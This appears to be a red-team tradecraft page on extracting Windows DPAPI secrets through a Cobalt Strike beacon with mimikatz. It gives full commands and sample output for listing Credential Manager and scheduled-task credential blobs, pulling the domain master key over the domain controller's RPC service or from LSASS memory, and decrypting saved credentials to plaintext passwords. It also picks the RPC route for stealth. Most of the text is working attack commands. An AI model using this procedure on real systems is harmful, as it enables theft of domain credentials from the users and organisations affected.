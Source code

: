 ```yaml
---
title: Data Protection API (DPAPI)
category: Red Team
order: 12
---
```


The Data Protection API (DPAPI) is a component built into Windows that provides a means for encrypting data blobs. It uses cryptographic kyes and allows both native Windows functionality and third-party applications to protect/unprotect data transparently to the user.

DPAPI is used by the Windows Credential Manager to sotre saved secrets such as RDP credential, and by third-party applications like Google Chrome.


# Credential Manager

The credential manager blobs are stored in user's `AppData` directory.

```
beacon> ls C:\Users\user\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```
With `vaultcmd` tool we can also list them.

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/srv-1
Identity: CORP\user
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

Or with mimikatz.

```
beacon> mimikatz vault::list
```

## Decrypt the credentials

To decrypt the credentials we need to find the master encryption key.

Run mimikatz `dpapi` and provide the location to the blob on disk.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it. The masterkey information is stored in the following directory specifying the user SID.

```
beacon> ls C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1122

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-CORP
 24b      fil     02/21/2021 11:49:40   Preferred
```

It is possible to dump the masterkey from memory with `sekurlsa::dpapi` on a high integrity session, but this interacts with LSASS which is not ideal for OPSEC.

There are more silent ways such us using the RPC service exposed on the DC.

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'corp.local' will be the domain
[DC] 'dc.corp.local' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```
Once the `key` is obtained we can decyrpt the credential with `dpapi::cred`.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : CORP\user
  CredentialBlob : Passw0rd!
```

# Scheduled Task Credentials

Scheduled task can save credentials so they can run under the context of a user without them having to be logged on. If we have compromised a machine as a local admin, we can decrypt them in the same way as the credential manager.

The blobs are saved under `C:\Windows\Sytem32\config\systemprofile\AppData\Local\Microsoft\Credentials`.

```
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 10kb     fil     08/28/2022 02:42:24   DFBE70A7E5CC19A398EBF1B96859CE5D
 527b     fil     08/17/2022 04:55:28   F3190EBE0498B77B4A85ECBABCA19B6E
```

With `dpapi::cred` can tell us the GUID of the master key used to encrypt each one.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```

`sekurlsa::dpapi` to dump cached keys:

```
beacon> mimikatz !sekurlsa::dpapi

	 [00000000]
	 * GUID      :	{aaa23e6b-bba8-441d-923c-ec242d6690c3}
	 * Time      :	9/6/2022 12:14:38 PM
	 * MasterKey :	10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
	 * sha1(key) :	cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c
```

And finally decrypt it.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : CORP\user
  CredentialBlob : Passw0rd!
```